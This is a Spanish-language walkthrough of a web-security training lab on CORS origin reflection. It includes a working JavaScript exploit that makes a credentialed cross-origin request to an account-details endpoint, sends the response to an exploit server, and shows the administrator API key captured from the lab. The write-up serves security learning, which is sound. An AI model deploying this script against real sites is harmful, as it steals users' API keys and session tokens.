 # Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un sitio de compras online:
![image](https://github.com/user-attachments/assets/27097d64-5cfd-42ac-882e-a8d2e4704b4f)

Tenemos que acceder a algun endpoint que nos permita visualizar nuestra API key, por lo que procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/6aac9bd4-4886-4833-a96d-762e03af1942)

Dashboard del usuario `wiener`:
![image](https://github.com/user-attachments/assets/08d91dd3-eace-4c2d-a73d-adb1b5e7426b)

Notamos que además tramita un endpoint interesante:
![image](https://github.com/user-attachments/assets/3d1cff9f-aaa0-4f4a-a5b2-a3e2c427323b)

El endpoint `/accountDetails` muestra una configuración vulnerable a CORS con reflexión de origen, y la imagen demuestra claramente que la explotación es posible. 
La solicitud GET a `/accountDetails` devuelve información sensible del usuario autenticado:
```json
{
  "username": "wiener",
  "email": "",
  "apikey": "KNOtNNLqwPrDs2yrDB1WSo909dr1VGaE",
  "sessions": [...]
}
```
Y el encabezado de respuesta:
```http
Access-Control-Allow-Credentials: true
```

Esto permite que el navegador envíe cookies en solicitudes cross-origin.

Esto es inseguro si el servidor también refleja el origen (`Origin`) sin validación.

Para validar esto, enviamos esta solicitud al `Repeater` y añadimos una nueva cabecera `Origin: https://attacker.com`, la respuesta incluirá:
```http
Access-Control-Allow-Origin: https://attacker.com
```

Realizamos la prueba, esta nueva captura confirmá que el sitio es vulnerable a una explotación CORS con reflexión de origen:
![image](https://github.com/user-attachments/assets/5231fe33-2b1f-4d25-a0c2-ec335fa74439)

- El servidor está reflejando dinámicamente el origen proporcionado (https://attacker.com).

- Y permite el uso de cookies/autenticación (Access-Control-Allow-Credentials: true).

Un atacante puede desde su propio dominio malicioso (attacker.com) hacer una solicitud autenticada con cookies del usuario víctima a `/accountDetails`, y robar la API key y otros datos privados.

Procedemos a utilizar un script:

```html
<html>
  <body>
    <script>
      var req = new XMLHttpRequest();
      req.onload = function() {
        location = '/log?data=' + this.responseText;
      };
      req.open('GET', 'https://0af80099040020e7ec49840800a3004f.web-security-academy.net/accountDetails', true);
      req.withCredentials = true;
      req.send();
    </script>
  </body>
</html>

```

Simulamos levantar nuestro servidor de atacante accediendo al botón `Go to exploit server`, ahí pegamos nuestro script que simula el desarrollo de una página que produce el exploit. Primero hacemos click en `Store` y luego en `Send exploit to victim`.

Accedemos a los logs mediante el botón `Access log`:
![image](https://github.com/user-attachments/assets/d3f13ff5-7bf3-4a48-809b-4235e4025c5f)

Obtenemos la información del usuario administrator:
```http
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22tRNkNQZiJtz3mCI80EDVyV2lQz6F4Fr5%22,%20%20%22sessions%22:%20[%20%20%20%20%22imTj0ZUcHiYgBJZHW1O7PrOQLZkA4Qyk%22%20%20]}
```









